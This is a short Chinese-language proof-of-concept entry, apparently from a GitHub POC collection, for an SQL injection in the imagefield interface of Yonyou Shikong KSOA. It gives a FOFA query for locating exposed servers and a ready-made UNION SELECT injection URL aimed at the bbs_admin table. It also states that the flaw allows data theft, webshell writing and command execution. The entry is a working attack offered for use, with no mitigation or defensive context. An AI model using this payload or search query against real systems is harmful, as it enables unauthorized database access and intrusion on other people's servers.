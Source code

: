 ## 用友时空KSOA-imagefield接口存在SQL注入漏洞

用友时空KSOA imagefield接口存在SQL注入漏洞，黑客可以利用该漏洞执行任意SQL语句，如查询数据、下载数据、写入webshell、执行系统命令以及绕过登录限制等。

## fofa
```
app="用友-时空KSOA"
```

## poc
```
/servlet/imagefield?key=readimage&sImgname=password&sTablename=bbs_admin&sKeyname=id&sKeyvalue=-1%27+union+select+sys.fn_varbintohexstr(hashbytes(%27md5%27,%271%27))--+

```

![c6b2b6d4ba7df38952d185d684c2e60a](https://github.com/wy876/POC/assets/139549762/ba1e8364-d789-480b-bbbb-e9ab0e067950)
